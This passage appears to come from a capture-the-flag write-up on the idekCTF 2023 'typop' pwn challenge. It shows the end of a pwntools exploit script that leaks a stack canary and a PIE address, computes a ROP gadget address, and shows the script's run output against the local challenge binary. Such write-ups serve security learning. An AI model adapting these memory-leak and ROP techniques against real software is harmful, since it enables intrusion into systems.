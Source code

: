 ```

payload2 += b'\x42'
target.send(payload2) 

print(target.recvuntil(b'ctf?'))
payload3 = b'a' * 0x1a
target.send(payload3)
print(target.recvuntil(payload3))
leak = target.recv(6)
print(leak)
main_55 = u64(leak + b'\x00' * 2)
pie_base = main_55 - elf.symbols['main'] - 55
pop_rdi = pie_base + 0x00000000000014d3
print(hex(pop_rdi))

target.interactive()
```
Which looks like this when run:
```
knittingirl@DESKTOP-C54EFL6:/mnt/c/Users/Owner/Desktop/CTF_Files/idekCTF23/typop/attachments$ python3 typop_exploit.py
[+] Starting local process './chall': pid 15455
[*] running in new terminal: ['/usr/bin/gdb', '-q', './chall', '15455', '-x', '/tmp/pwn3f3ifz01.gdb']
[+] Waiting for debugger: Done
[*] '/mnt/c/Users/Owner/Desktop/CTF_Files/idekCTF23/typop/attachments/chall'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
    RUNPATH:  b'./'
[*] '/mnt/c/Users/Owner/Desktop/CTF_Files/idekCTF23/typop/attachments/libc-2.31.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
b'Do you want to complete a survey?'
b'\nDo you like ctf?'
b'\nYou said: aaaaaaaaaaa'
0x7a7e475ed1a4ca00
b'\x10\xe1t\xee\xfe\x7f\nAww :( Can you provide some extra feedback?\nDo you like ctf?'
b'\nYou said: aaaaaaaaaaaaaaaaaaaaaaaaaa'
b'G\xf4?1\xbcU'
0x55bc313ff4d3
[*] Switching to interactive mode

$
```

